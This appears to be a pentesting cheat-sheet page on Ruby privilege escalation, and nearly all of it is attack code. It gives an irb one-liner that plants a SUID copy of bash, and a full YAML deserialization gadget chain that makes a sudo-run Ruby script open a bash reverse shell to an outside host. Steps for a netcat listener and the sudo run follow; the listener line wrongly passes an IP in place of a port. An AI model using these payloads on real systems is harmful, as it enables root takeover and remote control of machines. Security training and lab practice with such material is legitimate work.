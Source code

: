 ```yaml
---
title: Ruby Privilege Escalation
description: Ruby is an interpreted, high-level, general-purpose programming language.
tags:
    - Privilege Escalation
    - Reverse Shell
refs:
date: 2022-12-22
draft: false
---
```


## irb (Interactive Ruby Shell)

```bash
irb

# #q!: Define a string literal
> exec %q!cp /bin/bash /tmp/bash; chmod +s /tmp/bash!
```

<br />

## Remote Code Execution with YAML

Check if the current user could run the ruby script as root privilege.

```txt
(root) NOPASSWD: /usr/bin/ruby sample.rb
```

If the sample.rb contains the “File.read(’sample.yml’)”, modify the YAML file as follow:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
         method_id: :resolve
```

Then start listener in local machine.

```sh
nc -lvnp <local-ip>
```

Now run the sudo command.

```sh
sudo /usr/bin/ruby sample.rb
```